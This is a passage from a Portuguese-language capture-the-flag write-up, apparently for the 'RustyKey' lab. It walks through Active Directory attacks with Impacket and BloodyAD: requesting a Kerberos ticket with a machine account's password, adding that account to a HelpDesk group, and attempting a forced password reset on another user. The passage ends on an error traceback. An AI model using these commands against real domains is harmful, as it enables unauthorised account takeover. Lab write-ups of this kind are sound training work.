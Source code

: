 E diferente do **RR.PARKER**, com esse usuário precisamos usar o `getTGT` do [Impacket](https://github.com/fortra/impacket) para solicitar o ticket TGT:
```bash
getTGT.py -dc-ip "dc.rustykey.htb" rustykey.htb/"IT-Computer3$":'Rusty88!'

Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in IT-Computer3$.ccache

```

Com o TGT do **IT-Computer3$**, abrimos um novo leque de ataques que podemos fazer.

## User Flag

### Realizando um ForceChangePassword para obter o BB.MORGAN

![bb.morgan](https://res.cloudinary.com/dmx1j4rjb/image/upload/v1761776850/63aa35fa-1fb4-45ce-adb6-d5accdfb693e.png)

O nosso usuário tem permissão de `AddSelf` no grupo `HelpDesk` e, consequentemente `ForceChangePassword` nos usuários **DD.ALI, GG.ANDERSON, EE.REED e BB.MORGAN**, porém os mais interessantes aqui são o **EE.REED e o BB.MORGAN** pois eles são membros do grupo `REMOTE MANAGEMENT USERS`, o que permite acesso remoto com `Evil-Winrm`.

Então o nosso foco será o **BB.MORGAN**. Para isso primeiro temos que nos adicionarmos no grupo `HelpDesk`, estarei utilizando o [BloodyAD](https://github.com/CravateRouge/bloodyAD) para manipular o AD remotamente (caso queira uma "colinha" de comandos do `BloodyAD`, confira esse [site](https://seriotonctf.github.io/BloodyAD-Cheatsheet/)):
```bash
KRB5CCNAME='IT-Computer3$.ccache' bloodyAD --host "dc.rustykey.htb" -d "rustykey.htb" -k add groupMember "HelpDesk" 'it-computer3$'

[+] it-computer3$ added to HelpDesk

```

Agora que estamos no grupo, precisamos pedir novamente um TGT para atualizar as nossas permissões e ai podemos alterar a senha do **BB.MORGAN** usando também o `BloodyAD`. Porém ao tentar mudar a senha, nos deparamos com esse erro:
```bash
KRB5CCNAME='IT-Computer3$.ccache'  bloodyAD --host "dc.rustykey.htb" -d "rustykey.htb" -k set password 'bb.morgan' 'Password123!'

Traceback (most recent call last):
  File "/root/.local/bin/bloodyAD", line 8, in <module>
    sys.exit(main())
             ^^^^^^
  File "/root/.local/share/pipx/venvs/bloodyad/lib/python3.11/site-packages/bloodyAD/main.py", line 210, in main
    output = args.func(conn, **params)
             ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/root/.local/share/pipx/venvs/bloodyad/lib/python3.11/site-packages/bloodyAD/cli_modules/set.py", line 241, in password
    raise e
  File "/root/.local/share/pipx/venvs/bloodyad/lib/python3.11/site-packages/bloodyAD/cli_modules/set.py", line 86, in password
    conn.ldap.bloodymodify(target, {"unicodePwd": op_list})
  File "/root/.local/share/pipx/venvs/bloodyad/lib/python3.11/site-packages/bloodyAD/network/ldap.py", line 301, in bloodymodify
    raise err
msldap.commons.exceptions.LDAPModifyException: Password can't be changed. It may be because the oldpass provided is not valid.
```